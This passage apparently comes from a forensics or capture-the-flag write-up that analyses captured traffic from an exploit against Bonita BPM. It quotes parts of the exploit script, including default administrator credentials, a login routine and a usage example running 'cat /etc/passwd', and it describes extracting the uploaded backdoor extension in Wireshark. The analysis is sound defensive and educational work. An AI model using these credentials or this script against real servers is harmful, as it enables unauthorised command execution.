 
Then it uploads the extension, activates it, runs the command, and deletes the
extension. Each of those functions sends the requests that I see in the PCAP.
This pattern is exactly what I was suspecting above.

The script does this really unusual thing where it creates a class to hold the
command line args which fails if they aren’t all there and prints the usage:

    
    
    class exploit:
        try:
            session = requests.session()
            bonita_user = sys.argv[1]
            bonita_password = sys.argv[2]
            target_path = sys.argv[3]
            cmd = sys.argv[4]
            tempPath = ""
            extension_id = ""
            bonita_default_user = "install"
            bonita_default_password = "install"
            platform_default_user = "platformAdmin"
            platform_default_password = "platform"
        except:
            print(f"Usage: python3 {sys.argv[0]} <username> <password> http://localhost:8080/bonita 'cat /etc/passwd'")
            exit()
    

Then the different functions make use of this. For example, `login`:

    
    
    def login():
        req_url = f"{exploit.target_path}/loginservice"
        req_cookies = {"x": "x"}
        req_headers = {"Content-Type": "application/x-www-form-urlencoded"}
        req_data = {"username": exploit.bonita_user, "password": exploit.bonita_password, "_l": "en"}
        r = exploit.session.post(req_url, headers=req_headers, cookies=req_cookies, data=req_data)
        if r.status_code == 401:
            print("[!] Could not get a valid session using those credentials.")
            exit()
        else:
            print(f"[+] Authenticated with {exploit.bonita_user}:{exploit.bonita_password}")
    

### Extension

#### Recover

I can pull this out from WireShark at File -> Export Objects -> HTTP. After
sorting by size, the four 15 kB ones look like the backdoor:

![image-20240422145230708](../img/image-20240422145230708.png)

